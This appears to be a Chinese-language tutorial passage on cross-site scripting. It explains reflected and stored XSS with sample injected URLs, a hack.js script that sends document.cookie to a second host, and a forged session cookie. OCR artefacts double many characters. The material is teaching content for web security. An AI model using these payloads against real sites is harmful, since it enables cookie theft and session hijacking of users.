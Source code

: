 ## XSS

> Cross Siet Scripting

> 跨站脚本攻击
> XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS重叠，所以只能叫 XSS。跨站脚本攻击是指通过存在安全漏漏洞洞的Web⽹网站注册⽤用户的浏览器器内运⾏行行⾮非法的HTML标签或JavaScript 进⾏行行的⼀一种攻击。

跨站脚本攻击有可能造成以下影响:

- 利利⽤用虚假输⼊入表单骗取⽤用户个⼈人信息。

- 利利⽤用脚本窃取⽤用户的Cookie值，被害者在不不知情的情况下，帮助攻击者发送恶意请求。 

- 显示伪造的⽂文章或图⽚片。

### XSS 攻击分类

- 反射型 - url参数直接注⼊

```
// 普通 
http://localhost:3000/?from=china
// alert尝试 
http://localhost:3000/?from=<script>alert(3)</script>

// 页面上会打印alert(3)
<h2>欢迎来自 <%-from%>！！！</h2>
```

```
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>

// 短域名伪造 https://dwz.cn/

// 伪造cookie⼊入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjox NTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

```javascript
// 黑客网站 hack.js
var img = new Image()
img.src='http://localhost:4000/img?c='+document.cookie

// appi.js
app.use(async (ctx, next) => {
    log('Hack...:' + ctx.url)
    await next()
})
```

- 存储型 - 存储到DB后读取时注⼊

```javascript
// 评论 
<script>alert(1)</script>
// 跨站脚本注⼊入
我来了了<script src="http://localhost:4000/hack.js"></script>
```
